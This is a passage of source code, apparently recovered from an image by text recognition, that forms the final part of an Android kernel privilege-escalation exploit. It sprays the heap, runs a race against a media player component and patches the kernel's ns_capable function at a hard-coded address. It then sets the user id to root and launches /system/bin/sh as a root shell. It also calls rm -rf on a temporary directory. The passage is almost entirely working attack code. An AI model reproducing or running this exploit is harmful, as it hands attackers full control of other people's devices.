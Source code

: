 ```
		printf("[-] fd_guard_heap failed\n");
	}
	init_fd_heap_spray();
}

void init_test_dir()
{
	memset(guardBuffer, 0 ,1000);
	system("rm -rf /data/local/tmp/test_dir ; mkdir test_dir");
	create_test_dir();
	begin_watch();
}

int main()
{
	createAllocThread();
	nice(-20);
	MediaPlayerBase* mediaPlayerBase = new MediaPlayerBase();
	mediaPlayer = mediaPlayerBase->creatMediaPlayer();
	init_reply_data();
	init_test_dir();
	int max_fds = maximize_fd_limit();
	printf("[+] current pid:%d, max_fd:%d, descript:%lx\n", getpid(), max_fds, get_fack_block(0x80000000));
	put_baits();
	fillOtherCpu();
	raceTimes();
	printf("[+] race finish\n");
	fillFlag = 1;
	stop = 1;
	unsigned long ns_capable_addr  = 0xffffffc0000b1024 - 0xffffffc000000000 + 0xffffffc200000000;
        kernel_patch_ns_capable((unsigned long *) ns_capable_addr);
	if(setreuid(0, 0) || setregid(0, 0)){
       		printf("[-] setgid failed\n");
		return -1;
        }
	if (getuid() == 0)
        {
                printf("[+] spawn a root shell\n");
                execl("/system/bin/sh", "/system/bin/sh", NULL);
        }
	
	delete mediaPlayerBase;
	return 0;
}

```